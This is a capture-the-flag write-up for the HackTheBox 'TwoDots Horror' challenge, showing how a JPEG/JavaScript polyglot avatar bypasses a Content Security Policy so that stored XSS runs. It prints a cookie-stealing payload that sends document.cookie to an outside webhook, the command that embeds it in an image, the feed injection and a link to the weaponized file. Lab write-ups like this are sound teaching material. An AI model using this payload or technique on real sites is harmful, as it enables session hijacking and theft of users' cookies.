









# **_How to bypass Content Security Policy_**


## HACK THE BOX - TwoDots Horror


#### **Inspiration**

I got inspired by the amazing CTF on [HackTheBox - TwoDots Horror](https://app.hackthebox.com/challenges/twodots-horror)  
_**Created by Rayhan0x01 & makelaris**_

### **Introduction**

As a user, we can upload our own profile picture in \*.jpeg format.  
We can also sumbit our two dot horror story. Which basically means, that it must be with two sentences, followed by a dot.  
When we upload a valid story via **POST REQUEST** `/api/sumbit` it will get reviewed by the admin. In this case the admin is a bot.  
The bot is a **headless chromium browser**, that visits every post we make.

#### **Steps involved**

1. Find a \*.jpg Picture to edit
2. Take the following [script from GitHub](https://github.com/s-3ntinel/imgjs_polygloter) _**Credits go to s-3ntinel**_
3. Create Webhook with [Pipedream.com](https://pipedream.com)
4. Create XSS Payload
5. Inject XSS Payload into the \*.jpg file with the script from above to bypass CSP
6. Upload the image
7. Inject XSS into the commentary field (Feed) Wait for the Exploit

---

### **Reconnaissance**

**First things first!** - Let's explore the website.  
We see, that we can register a user. So let's register the user: `admin`  
Would have thought that it would trigger the error: `username already in use`.  
Next, let's check if we're logged in what we can do.

We find a feed, where we can post our stories and a profile section to change our avatar.

This gives me straight flashbacks for some **XSS - Cross-Site-Scripting** action.

So let's input our basic XSS, because `without an alert, their is no XSS`

```
<code class="language-JavaScript">alert('I love the smell of JavaScript in the morning!')..
```

**Output**  
Your story gets reviewed by an admin.

Well so far, nothings speaks against it, that the site could be XSS vulnerable, but on the other side, no alert for us.

---

**Files provided by HackTheBox**  
Fortunately we can download some source files and aren't left alone in the dark.

##### **Challenge source code**

**routes/index.js**

```
<code class="language-javascript">[SNIP]
router.get('/review', async (req, res, next) =&gt; {
    if(req.ip != '127.0.0.1') return res.redirect('/');

    return db.getPosts(0)
        .then(feed =&gt; {
            res.render('review.html', { feed });
        })
        .catch(() =&gt; res.status(500).send(response('Something went wrong!')));
});

router.post('/api/submit', AuthMiddleware, async (req, res) =&gt; {
    return db.getUser(req.data.username)
        .then(user =&gt; {
            if (user === undefined) return res.redirect('/');
            const { content } = req.body;
            if(content){
                twoDots = content.match(/\./g);
                if(twoDots == null || twoDots.length != 2){
                    return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
                }
                return db.addPost(user.username, content)
                    .then(() =&gt; {
                        bot.purgeData(db);
                        res.send(response('Your submission is awaiting approval by Admin!'));
                    });
            }
            return res.status(403).send(response('Please write your story first!'));
        })
        .catch(() =&gt; res.status(500).send(response('Something went wrong!')));
});

router.post('/api/upload', AuthMiddleware, async (req, res) =&gt; {
    return db.getUser(req.data.username)
        .then(user =&gt; {
            if (user === undefined) return res.redirect('/');
            if (!req.files) return res.status(400).send(response('No files were uploaded.'));
            return UploadHelper.uploadImage(req.files.avatarFile)
                .then(filename =&gt; {
                    return db.updateAvatar(user.username,filename)
                        .then(()  =&gt; {
                            res.send(response('Image uploaded successfully!'));
                            if(user.avatar != 'default.jpg')
                                fs.unlinkSync(path.join(__dirname, '/../uploads',user.avatar)); // remove old avatar
                        })
                })
        })
        .catch(err =&gt; res.status(500).send(response(err.message)));
});

[SNIP]
```

**What Do We See?**  
_**This code defines three routes for an Express.js web server in Node.js. Each route defines the behavior of the server when a specific HTTP request (GET or POST) is sent to a specific URL.**_

```
1. **router.get'/review', async (req, res, next) => ...:**  
   This route responds to GET requests to the URL **"/review"**. It checks if the request comes from the local IP address (127.0.0.1). If it is, it calls the **getPosts method** of the database to retrieve the posts and then display them in the **"review.html"** template. If the request comes from a different IP address, it is redirected to the home page.
2. **router.post'/api/submit', AuthMiddleware, async (req, res) => ...:**  
   This route responds to POST requests to the URL "/api/submit". It requires authentication by the **AuthMiddleware**. It fetches the user from the database and checks if the content of the request (the history) contains exactly two items (records). If it does, the history is added to the database and a message is returned that the submission is waiting for approval by the administrator. Otherwise, an error message is returned.
3. **router.post'/api/upload', AuthMiddleware, async (req, res) => ...:**  
   This route responds to POST requests to the URL **"/api/upload"**. It also requires authentication by **AuthMiddleware**. It fetches the user from the database and checks if files have been uploaded. If so, it uploads the user's avatar image, updates the user's avatar image in the database, and deletes the old avatar image. If no files have been uploaded, an error message is returned.
```

In summary, this is **a typical Express.js server that processes and responds to various HTTP requests by retrieving and updating data from a database** and **performing various actions based on the contents of the requests.**

---

**bot.js**

```javascript
`<code class="language-javascript">`const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update'
    ]
};

const cookies = [{
    'name': 'flag',
    'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

async function purgeData(db){
    const browser = await puppeteer.launch(browser_options);
    const page = await browser.newPage();

    await page.goto('http://127.0.0.1:1337/');
    await page.setCookie(...cookies);

    await page.goto('http://127.0.0.1:1337/review', {
        waitUntil: 'networkidle2'
    });

    await browser.close();
    await db.migrate();
};

module.exports = { purgeData };
```

**What Do We See?**  
This code uses the Puppeteer library in Node.js to automate some browser interactions.

1. **const puppeteer = require('puppeteer');**  
   This line imports the Puppeteer library.

2. The **browser_options** object sets several configuration options for the browser that Puppeteer will launch. For example, **headless: true** means the browser will run in headless mode (no graphical user interface).

3. **const cookies = \[...]**  
   This sets up a cookie with the name `flag` and a value of `HTB{f4k3_fl4g_f0r_t3st1ng}`.

4. The **purgeData** function does the following:

   - **const browser = await puppeteer.launch(browser_options);**  
     This launches a new browser instance with the specified options.
   - **const page = await browser.newPage();**  
     This opens a new page (tab) in the browser.
   - **await page.goto('http://127.0.0.1:1337/');**  
     This navigates the page to the specified URL.
   - **await page.setCookie(...cookies);**  
     This sets the cookie defined earlier on the page.
   - **await page.goto'http://127.0.0.1:1337/review', ...**  
     This navigates the page to the `/review` URL and waits until there are no more than 2 network connections for at least 500 ms.
   - **await browser.close();**  
     This closes the browser.
   - **await db.migrate();**  
     This presumably runs some sort of database migration, but without further context it's hard to know exactly what it does.
   - **module.exports = { purgeData };**  
     This exports the purgeData function so it can be used in other modules.

**Methodology**  
As a user, we can submit stories in the form of text. When we upload a valid story from **POST /api/submit** it will get **reviewed by a bot** using **purgeData() method**. The **bot is a headless chromium browser**, that visits every post we make, and then **deletes db**. The bot **sets a cookie with a flag we need to obtain**.

\> The obvious thing here is to use XSS and steal the cookie. But this is not so easy because the app has a CSP defense in-place.

**CSP - Content Security Policy**  
Using [csp evaluator](https://csp-evaluator.withgoogle.com/), we can see that we can use scripts from the same origin.





\> There aren’t any exploitable js libraries on the website.

---

**Upload**  
The website allows us to change our profile picture.  
By doing this we upload a **jpeg picture** to the server, which will be available on **GET /api/avatar/**.  
We can use this to upload a **polyglot file**, which has a **jpeg** and a **javascript code** in the same file.

When we upload the file, we have to **conform to the image criteria** imposed by this method.

```
<code class="language-javascript">module.exports = {
    async uploadImage(file) {
        return new Promise(async (resolve, reject) =&gt; {
            if(file == undefined) return reject(new Error("Please select a file to upload!"));
            try{
                if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));
                const dimensions = sizeOf(file.data);
                if(!(dimensions.width &gt;= 120 &amp;&amp; dimensions.height &gt;= 120)) {
                    return reject(new Error("Image size must be at least 120x120!"));
                }
                uploadPath = path.join(__dirname, '/../uploads', file.md5);
                file.mv(uploadPath, (err) =&gt; {
                    if (err) return reject(err);
                });
                return resolve(file.md5);
            }catch (e){
                console.log(e);
                reject(e);
            }

        });
    }
}
```

**What Do We See?**

1. JavaScript **exports an asynchron function called uplaodImage** which takes an argument file (our picture)

| JavaScript                                                                              | Description                                                                                                                                                                                           |
| --------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `if(file == undefined) return reject(new Error("Please select a file to upload!"));`    | Checks if a file has been provided. If no file was provided (i.e. file is undefined), an error is generated and the Promise is rejected with this error                                               |
| `if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));` | Calls presumably a external function isJpg that checks if the provided file is a valid JPEG file. If the file is not a valid JPEG, an error is generated and the Promise is rejected with this error. |
| `const dimensions = sizeOf(file.data);`                                                 | Calls a external function sizeOf which returns the dimensions of the provided file.                                                                                                                   |
| `if(!(dimensions.width &gt;= 120 &amp;&amp; dimensions.height &gt;= 120))`              | Checks if the file is at least 120x120 pixels. If this is not the case, an error is generated and the Promise is rejected with this error.                                                            |
| `uploadPath = path.join(__dirname, '/../uploads', file.md5);`                           | Creates the path where the file should be uploaded. The path consists of the current directory of the script (\_\_dirname), the subfolder "uploads" and the md5 hash of the file.                     |
| `file.mv(uploadPath, (err) =&gt; {...`                                                  | Moves the file to the previously created upload path. If an error occurs, the Promise is rejected with this error.                                                                                    |
| `return resolve(file.md5);`                                                             | If all checks are passed and the file is successfully uploaded, the promise is fulfilled with the md5 hash of the file.                                                                               |

\> Overall, this is a fairly typical example of a file upload handler in Node.js. It takes a file, checks if it meets the criteria (in this case it must be a JPEG image with a minimum size of 120x120 pixels), and then uploads it to a specific folder.

**What can we do with this information?**  
It is important to note that the **isJpg** function **only checks if the first bytes of the data contain the tag of a JPEG image**.  
**It does not check whether the entire data represents a valid and complete JPEG image.**  
Therefore, it should only be used as an initial check, and additional checks may be required to confirm the validity of the entire image.

\> Since their is only a additonal size check and not more, we can exploit this situation. If we craft a JPG picture, with XSS code inside!

**So, how do we ensure that the function** `isJpg` **does think we are using a valid JPG file?**  
Well, here `isJPG` in a nutshell:

The **isJpg function** is a module used to check whether a given block of data _**(in the form of a buffer or a Uint8Array)**_ represents a valid JPEG image.  
It does this **by checking that the first bytes of the data block** contain the specific strings that identify a JPEG image aka **MAGIC BYTES** > MAGIC BYTES JPG - FF D8 FF E0

**isJPG** does that with only checking the **first three bytes**. > 0xFF 0xD8 0xFF

[A list of all magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

[How does isJPG work? - Long Version](https://github.com/sindresorhus/is-jpg)

---

### **Weaponization**

**Create Webhook**  
I used [pipedream.com](https://pipedream.com/workflows)  
You can register for free.

1. Go to **Workflows** and add a **New +** Workflow
2. Add the trigger **HTTP / Webhook** **Full HTTP request**
3. **Filter favicon.ico** because we don't need that
4. Save and continue
5. (Optional) Add a second step **New Emails**, so you get notified if something interacts with your webhook





---

**Create XSS Payload**  
This XSS payload steals the cookie from the bot.  
Inside is our url to the webhook we created.

`window.location.href="https://your-webhook.m.pipedream.net?c="+document.cookie;`

Since we can't directly enter the payload into the feed as HTML, we need to modify the payload, to fit in our **JPG**.  
**Modify the payload to this:**

```
<code class="language-javascript">'window.location.href="https://your-webhook.m.pipedream.net?c="+document.cookie;
```

**Inject XSS Payload into the jpg file**  
I used the script mentioned above to inject the xss payload into the \*.jpg.  
We could do it manually, but this is a chapter for a other time...

\> I used python 3

```
<code class="language-bash">python img_polygloter.py jpg --height 120 --width 120 --payload 'window.location.href="https://your-webhook.m.pipedream.net?c="+document.cookie;' --output xss-steal-cookie.jpg
```

\> HINT - If you wanna do it manually, [here is a awesome post](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs) from PortSwigger aka BurpSuite!

\> **The picture you have used must be 120px x 120px**

---

### **Delivery**

Upload the JPG file with the XSS payload inside to the site.








**Picture inside HxD**  
You can see our payload inside the picture with the valid beginning magic bytes. `FF D8 FF E0`

---

### **Exploitation**

Navigate to the **Feed** of the site and inject your XSS payload.

```
<code class="language-javascript"><a href="/api/avatar/admin">/api/avatar/admin</a>..
```

\> Note the two dots at the end, because we need a TwoDot Horror Story.





**You can get the exact uri from BurpSuite**  
Check the GET-Request which is after your POST-Request (from the picture upload)

1. Upload the picture (POST REQUEST) `/api/upload`
2. GET REQUEST `/api/avatar/...`





**This is our POST-REQUEST with the WEAPONIZED JPG picture**


**This is our GET-REQUEST with the uri**





---

### **Collection**

Now wait for the bot to review your post, with the XSS inside.  
He will get your avatar with the additional XSS payload inside the JPG which steals his cookie and sends it to your webhook.

**Wait for the Flag**





**OPTIONAL - E-Mail**





> Why did the JavaScript date the HTML document?  
> Because it heard it was 'vulnerable' and wanted to 'alert' it with some 'scripted' pickup lines!
>
> Trustinveritas


> What's an XSS vulnerability's favorite song?  
> "I just called to say I love you…and inject my script into your website."
>
> TRUSTINVERITAS


---


## Image with xss inside


[Download](https://github.com/trustinveritas/XSS-IN-JPG/blob/main/xss-steal-cookie3.jpg)


